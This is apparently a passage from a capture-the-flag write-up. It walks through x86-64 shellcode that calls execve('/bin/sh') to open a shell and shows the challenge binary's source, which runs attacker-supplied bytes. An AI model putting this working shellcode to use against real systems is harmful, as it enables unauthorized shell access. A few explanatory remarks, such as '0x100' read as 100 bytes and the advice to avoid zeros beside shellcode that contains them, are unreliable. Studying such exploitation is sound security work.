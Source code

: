 To open a shell, we need the `execve` syscall, which has to be executed with `/bin/sh` as first parameter. In order to do that we will put `0x3b` in the `rax` register, and a pointer to `/bin/sh\x00` into `rdi`.

**Note**: Since the code of the binary sets `rsp` to zero, when the program jumps to our shellcode and we push things on the stack, the execution fails. We first need to move the stack in the middle of the memory page allocated with `memmap`, and then we can execute our shellcode.

```assembly
# we want to write code for the following function call:
# execve('/bin/sh', 0, 0);
# x64 calling convention, we need to put arguments in registers:
#   1. rdi: pointer to b'/bin/sh\x00'
#   2. rsi: pointer to NULL
#   3. rdx: pointer to NULL
#   4. rax: 0x3b

# configuring rsp because since we are jumping to an arbitrary location it's set to 0x0
add rax, 0x100	# rax contains the address of our shellcode
mov rsp, rax		# which means that we are putting rsp 100 bytes over it

# rdi setup (pointer to binsh)
mov rbx, 0x0068732f6e69622f
push rbx
mov rdi, rsp

# rsi, rdx setup (pointer to NULL)
# note that xoring a register with itself will always result in zero
xor rbx, rbx
push rbx
mov rsi, rbx
mov rdx, rbx

# rax setup (0x3b is the syscall code for execve), and executing the call
mov rax, 0x3b
syscall
```

**Note (zeros)**: that zeros in the exploits need to be avoided is the input is read with a scanf function.

**Note (char array as sycall argument)**: We need to put a pointer to a zero to terminate the array of arguments of the execv function, which means that we need to put a pointer to a zero in the `rsi` register (since the function writes those registers in this order: `rax`, `rdi`, `rsi`).

**Note (rax register)**: The `rax` register is usually used for function return values.

After flagging we can get the source code of the binary from the server:

```c
int main() {
    void *data;
    data = mmap(0, 0x1000, 7, 0x22, -1, 0);
    read(0, data, 0x200);
    register long rax __asm__("rax") = data;
    reset_register();
    asm("jmp %rax");
    return 0;
}

int _start() {
    main();
    exit(0);
}
```
